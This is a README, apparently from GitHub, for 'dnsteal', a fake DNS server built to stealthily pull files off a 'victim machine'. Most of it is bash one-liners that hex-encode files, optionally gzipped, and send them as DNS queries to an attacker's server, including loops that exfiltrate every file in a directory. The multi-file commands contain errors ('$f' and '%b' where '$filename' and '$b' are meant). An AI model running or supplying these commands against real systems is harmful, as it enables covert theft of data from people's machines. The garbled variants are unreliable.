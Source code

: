 # dnsteal

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. 

Below is an image showing an example of how to use:

![Alt text](https://slimgr.com/images/2015/09/27/d7cb61e9105e62f70e2b866b6be55885.png)

On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.filename.com; done
```

**Support for multiple files**

```bash
for filename in $(ls); do for b in $(xxd -p $f); do dig +short @server %b.$filename.com; done; done
```

**gzip compression supported**

It also supports compression of the file to allow for faster transfer speeds, this can be achieved using the "-z" switch:

```bash
python dnsteal.py 127.0.0.1 -z
```

Then on the victim machine send a Gzipped file like so:

```bash
for b in $(gzip -c file/to/send.png | xxd -p); do dig @server $b.filename.com; done
```

or for multiple, gzip compressed files:

```bash
for filename in $(ls); do for b in $(gzip -c $filename | xxd -p); do dig +short @server %b.$filename.com; done; done
```

~x90
